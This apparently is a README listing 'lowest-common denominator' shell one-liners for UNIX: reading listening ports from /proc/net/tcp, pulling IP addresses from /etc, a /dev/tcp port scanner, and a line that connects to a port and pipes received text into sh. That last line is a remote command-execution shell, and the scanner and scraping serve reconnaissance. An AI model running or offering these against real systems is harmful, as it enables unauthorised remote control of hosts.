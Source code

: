 # lcdbins

An **lcdbin** is a lowest-common denominator binary; a platform-agnostic oneliner that should work on almost any UNIX environment.

Parse listening ports on /proc/net/tcp:

```shell
for i in $(awk -F "[ :]+" '{print $4}' /proc/net/tcp); do bc <<< "obase=10; ibase=16; $i"; done | sort -un
```

Get all IP addresses in /etc/:

```shell
grep -Ero '\b((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)(\.|$)){4}\b' /etc/* 2>/dev/null
```

Scan TCP ports:

```shell
for i in {1..9000}; do SERVER="127.0.0.1"; PORT=$i; (echo  > /dev/tcp/$SERVER/$PORT) &> /dev/null && echo "Port $PORT seems to be open"; done
```

Connect to a port and execute the command received:

```shell
exec 3<>/dev/tcp/127.0.0.1/31337; cat <&3 | sh
```
